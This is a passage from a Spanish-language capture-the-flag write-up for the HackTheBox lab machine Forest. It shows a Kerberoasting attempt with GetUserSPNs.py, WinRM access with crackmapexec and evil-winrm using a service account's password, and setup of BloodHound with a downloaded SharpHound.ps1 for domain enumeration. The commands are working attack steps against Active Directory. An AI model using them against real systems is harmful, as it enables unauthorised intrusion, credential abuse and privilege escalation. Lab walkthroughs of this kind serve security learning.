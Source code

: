 
```bash
GetUserSPNs.py htb.local/svc-alfresco:s3rvice@10.10.10.161 -request -dc-ip 10.10.10.161
```

Esta utilidad nos retorna un mensaje como que no son las buenas credenciales. Si es el caso vamos si nos podemos connectar
por win-rm.


## Vuln exploit & Gaining Access {-}

### Ganando accesso con Win-RM {-}

```bash
crackmapexec winrm 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```

Aqui vemos quel usuario es (Pwn3d!)

```bash
evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```

ya estamos a dentro de la maquina y podemos ver la flag del usuario.


### Enumeracion del systema para preparar la escalada de privilegios {-}

1. instalamos bloodhound y neo4j

    ```bash
    sudo apt install neo4j bloodhound
    ```

1. lanzamos neo4j service

    ```bash
    sudo neo4j console
    ```

1. lanzamos bloodhound

    ```bash
    bloodhound --no-sandbox &> /dev/null &
    disown
    ```

1. connectamos bloodhound al neo4j database
1. Collectamos la data con SharpHound.ps1

    - descargamos en sharphound
    
        ```bash
        wget https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1
        ```

    - lo uploadeamos desde el evil-winrm
